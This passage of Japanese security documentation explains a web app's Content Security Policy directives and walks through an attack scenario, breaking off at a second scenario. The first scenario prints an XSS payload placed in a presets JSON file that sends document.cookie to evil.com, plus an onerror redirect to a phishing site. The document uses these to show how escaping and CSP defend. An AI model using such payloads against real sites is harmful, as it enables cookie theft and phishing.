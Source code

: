 ### 🔍 各ディレクティブの詳細

| ディレクティブ | 設定値 | 意味 | 防御対象 |
|---------------|--------|------|----------|
| `default-src` | `'self'` | デフォルトは同一ドメインのみ | 外部リソース全般 |
| `script-src` | `'self'` | JavaScriptは同一ドメインのみ | 外部スクリプト注入 |
| `style-src` | `'self' 'unsafe-inline'` | CSS同一ドメイン＋インライン許可 | CSS injection |
| `img-src` | `'self' data:` | 画像は同一ドメイン＋data:URL | 画像経由の攻撃 |
| `object-src` | `'none'` | オブジェクト埋め込み禁止 | Flash等レガシー攻撃 |
| `base-uri` | `'self'` | base要素は同一ドメインのみ | ベースURL改ざん |

### 🛡️ CSPの防御メカニズム

#### **1. ブラウザレベルでの保護**
- コードが改ざんされても、ブラウザがリソース読み込みを制限
- 実行時にリアルタイムでチェック

#### **2. ホワイトリスト方式**
- 許可されたリソースのみ実行
- デフォルト拒否で安全性を確保

#### **3. 違反レポート**
- CSP違反をブラウザのコンソールに記録
- デバッグとモニタリングが可能

---

## ⚔️ 攻撃シナリオと対策効果

### 🎯 シナリオ1: 悪意のあるプリセット攻撃

**攻撃手法**:
```javascript
// data/presets.json への攻撃
{
  "name": "①正常な名前<script>fetch('https://evil.com/steal?data='+btoa(document.cookie))</script>",
  "description": "正常な説明<img src=x onerror=location.href='https://phishing.com'>"
}
```

**対策効果**:
1. **HTMLエスケープ**: `<script>`タグが`&lt;script&gt;`に変換
2. **CSP**: 外部スクリプト`evil.com`への接続がブロック
3. **結果**: 攻撃完全に無効化

### 🎯 シナリオ2: 平文入力経由の攻撃
